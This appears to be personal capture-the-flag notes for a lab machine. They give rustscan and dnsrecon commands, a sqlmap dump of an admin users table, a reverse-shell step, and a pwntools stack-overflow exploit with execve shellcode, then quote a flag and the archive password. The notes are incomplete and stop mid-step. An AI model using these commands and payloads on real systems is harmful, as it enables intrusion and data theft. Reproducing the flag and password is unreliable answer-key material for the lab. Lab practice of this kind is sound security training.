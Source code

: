1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
![[Pasted image 20230913121421.png]]
7) Get a reverse shell and look on /home/leak. Download it locally and exploit
```python3
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```
8) Expose the binary using socat and launch the exploit
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &amp;
```
![[Pasted image 20230913143408.png]]
9) Xor non fatto
```
Hello mate!  
First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!  
Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.  
Make sure those binaries are kept safe!  
To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.  
The ports are 5555 and 7777.  
Have fun and keep it safe!  
JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}  
Cheers - Alex
```
10) Elasticity is broken
11) Unzip "Exploitme.zip" with the same key used fo xor crypted message (securewebincrocks)
![[Pasted image 20230914104419.png]]
12) Exploit the 
